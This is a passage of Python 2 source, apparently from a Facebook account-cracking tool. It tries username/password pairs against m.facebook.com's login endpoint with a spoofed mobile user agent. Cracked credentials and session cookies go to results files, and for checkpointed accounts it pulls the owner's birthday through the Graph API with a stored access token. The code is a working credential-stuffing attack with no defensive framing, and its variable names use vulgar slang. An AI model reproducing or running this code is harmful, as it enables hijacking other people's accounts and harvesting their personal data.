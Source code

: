             except (KeyError, IOError):

            	_kontol = 'Mozilla/5.0 (Linux; Android 11; Redmi 10 Build/RP1A.200720.011; wv) AppleWebKit/537.36 (KHTML, like Gecko) Version/4.0 Chrome/92.0.4515.131 Mobile Safari/537.36 [FBAN/EMA;FBLC/id_ID;FBAV/211.0.0.33.117 Android (30/11; 320dpi; 720x1448; realme; RMX2193; RMX2193; mt6768; fr_FR; 327976424;]'

            ses = requests.Session()

            ses.headers.update({"Host":"m.facebook.com","cache-control":"max-age=0","upgrade-insecure-requests":"1","user-agent":_kontol,"accept":"text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8","accept-encoding":"gzip, deflate","accept-language":"id-ID,id;q=0.9,en-US;q=0.8,en;q=0.7"})

            p = ses.get("https://m.facebook.com")

            b = ses.post("https://m.facebook.com/login.php", data={"email": user, "pass": pw, "login": "submit"})

            if "c_user" in ses.cookies.get_dict().keys():

            	kuki = (";").join([ "%s=%s" % (key, value) for key, value in ses.cookies.get_dict().items() ])

                print '\r  %s* --> %s|%s|%s                 %s' % (H,user,pw,kuki,N)

                wrt = ' [✓] %s|%s|%s' % (user,pw,kuki)

                ok.append(wrt)

                open('results/OK-%s-%s-%s.txt' % (ha, op, ta), 'a').write('%s\n' % wrt)

                break

            elif "checkpoint" in ses.cookies.get_dict().keys():

                try:

                    kontol = open('.memek.txt').read()

                    cp_ttl = requests.get('https://graph.facebook.com/%s?fields=birthday&access_token=%s'%(user,kontol)).json()['birthday']

                    month, day, year = cp_ttl.split('/')

                    month = bulan_ttl[month]

                    print '\r  %s* --> %s|%s|%s %s %s     %s' % (K,user,pw,day,month,year,N)

                    wrt = ' [×] %s|%s|%s %s %s' % (user,pw,day,month,year)

                    cp.append(wrt)

                    open('results/CP-%s-%s-%s.txt' % (ha, op, ta), 'a').write('%s\n' % wrt)

                    break

                except (KeyError, IOError):

                    month = ''

                    day   = ''

                    year  = ''
